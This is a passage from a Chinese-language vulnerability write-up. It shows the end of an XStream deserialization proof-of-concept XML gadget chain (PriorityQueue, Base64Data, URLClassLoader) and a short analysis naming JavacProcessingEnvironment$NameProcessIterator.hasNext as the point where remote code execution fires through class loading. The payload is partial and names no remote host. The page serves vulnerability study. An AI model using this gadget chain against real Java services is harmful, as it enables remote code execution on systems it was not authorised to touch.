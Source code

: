 ```xml
                    <classloader class='java.net.URLClassLoader' reference='../..'/>
                    <principals/>
                    <hasAllPerm>false</hasAllPerm>
                    <staticPermissions>false</staticPermissions>
                    <key>
                      <outer-class reference='../..'/>
                    </key>
                  </defaultDomain>
                  <initialized>true</initialized>
                  <pdcache/>
                </processorCL>
              </iterator>
              <type>KEYS</type>
            </e>
            <in class='java.io.ByteArrayInputStream'>
              <buf></buf>
              <pos>-2147483648</pos>
              <mark>0</mark>
              <count>0</count>
            </in>
          </is>
          <consumed>false</consumed>
        </dataSource>
        <transferFlavors/>
      </dataHandler>
      <dataLen>0</dataLen>
    </com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data reference='../com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'/>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

### [](#分析-3 "分析")分析

这个POC的RCE触发点是com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator

```java
ClassLoader processorCL;
public boolean hasNext() {
    if (this.nextProc != null) {
        return true;
    } else if (!this.names.hasNext()) {
        return false;
    } else {
        String var1 = (String)this.names.next();

        Processor var2;
        try {
            try {
                var2 = (Processor)((Processor)this.processorCL.loadClass(var1).newInstance());
                ...
```
